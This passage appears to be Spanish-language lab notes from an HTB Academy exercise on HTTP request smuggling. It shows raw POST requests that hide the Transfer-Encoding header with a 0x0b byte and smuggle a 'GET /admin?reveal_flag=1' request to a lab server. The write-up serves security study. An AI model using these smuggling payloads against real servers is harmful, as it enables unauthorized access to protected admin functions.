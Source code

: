 ```http
POST / HTTP/1.1
Host: 178.128.169.240:31850
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Transfer-Encoding: chunked

0

HELLO
```

![[Pasted image 20230512235904.png]]

reemplazamos con el byte (`0x0b`):

- seleccionamos el byte (`0x20`) (click sobre el byte)
- click derecho y damos la opcion **insert byte**

![[Pasted image 20230513000046.png]]

- colocamos el byte (`0x0b`)

![[Pasted image 20230513000103.png]]

![[Pasted image 20230513000155.png]]

lo enviamos 2 veces y vemos que con ese byte obtenemos el estado:

![[Pasted image 20230513000629.png]]

ahora vamos a hacer que el administrador nos revele la flag:

```http
POST / HTTP/1.1
Host: 178.128.169.240:31850
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Transfer-Encoding: chunked

0

GET /admin?reveal_flag=1 HTTP/1.1
Hust:
```

>[!note]
>Tenemos que volver a cambiar el byte.

al recargar el enpoint `/admin` (despues de varios intentos por segundo durante 10 segundos), nos revelara la flag:

![[Pasted image 20230513002226.png]]

### Exploiting TE.CL vulnerability to access admin panel (HTB Academy)
